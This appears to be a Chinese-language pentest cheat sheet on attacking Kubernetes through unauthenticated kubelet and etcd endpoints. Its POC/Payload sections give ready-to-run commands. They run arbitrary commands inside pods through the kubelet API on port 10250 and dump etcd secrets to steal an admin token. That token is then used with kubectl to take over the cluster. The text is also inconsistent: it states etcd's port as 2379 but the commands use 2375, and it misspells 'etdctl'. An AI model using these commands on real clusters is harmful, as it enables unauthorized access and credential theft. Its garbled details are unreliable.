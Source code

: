 **kubelet 未授权访问**
- 简介

    kubelet 是在 Node 上用于管理本机 Pod 的，kubectl 是用于管理集群的。kubectl 向集群下达指令，Node 上的 kubelet 收到指令后以此来管理本机 Pod。

    Kubelet 服务启动后会监听多个端口，用于接收 Kubernetes API Server 组件发送的请求
    - 10248 : Kubelet healthz 的服务端口，用于判断 Kubelet 组件的健康状态，已于 Kubernetes v1.16 版本后弃用，访问该端口默认需要认证授权
    - 10250 : Kubelet 的 HTTPS 服务，读写端口，提供 Kubernetes 基本资源运行状态， 访问该端口默认需要认证授权
    - 10255 : Kubelet 的 HTTP 服务，只读端口，提供只读形式的 Kubernetes 基本资源运行状态，该端口无需进行认证授权，默认为禁用
    - 4194 : cAdvisor 的 HTTP 服务端口，自 Kubernetes v1.10 版本开始，官方去除了 --cadvisor-port 参数配置，不再支持对 cAdvisor 的访问

    kubelet 对应的 API 端口默认在 10250，运行在集群中每台 Node 上，kubelet 的配置文件在 node 上的 `/var/lib/kubelet/config.yaml`

    配置文件中 authentication 选项用于设置 kubelet api 能否被匿名访问，authorization 选项用于设置 kubelet api 访问是否需要经过 Api server 进行授权, 如果把 authentication-anonymous-enabled 改为 true，authorization-mode 改为 AlwaysAllow，再使用命令 systemctl restart kubelet 重启 kubelet，那么就存在 kubelet 未授权访问

- POC | Payload | exp
    ```bash
    # 如果有 kubelet 未授权，可以用以下命令在 Pod 内执行命令

    curl https://node_ip:10250/pods
    curl -XPOST -k https://node_ip:10250/run/<namespace>/<PodName>/<containerName> -d "cmd=command"

    /pods
    /runningpods
    /metrics
    /spec
    /stats
    /stats/container
    /logs
    /run/
    /exec/
    /attach/
    /portForward/
    /containerLogs/
    ```

**etcd 未授权**
- 简介

    etcd 是 k8s 集群中的数据库组件，默认监听在 2379 端口. 如果 2379 存在未授权，那么就可以通过 etcd 查询集群内管理员的 token，然后用这个 token 访问 api server 接管集群。

    在启动 etcd 时，如果没有指定 `--client-cert-auth` 参数打开证书校验，并且没有通过iptables/防火墙等实施访问控制，etcd 的接口和数据就会直接暴露给外部黑客 "

    下载 https://github.com/etcd-io/etcd/releases/
    ```bash
    etcdctl --endpoints=https://etcd_ip:2375/ get / --prefix --keys-only
    # 查询管理员 token
    etcdctl --endpoints=https://etcd_ip:2375/ get / --prefix --keys-only | grep /secrets/
    # 在 etcd 里查询管理员的 token，然后使用该 token 配合 kubectl 指令接管集群
    etdctl --endpoints=https://etcd_ip:2375/ get /registry/secrets/default/admin-token-xxxxx
    # 拿到 token 以后，用 kubectl 接管集群
    kubectl --insecure-skip-tls-verify -s https://master_ip:6443/ --token="xxxxxx" get nodes
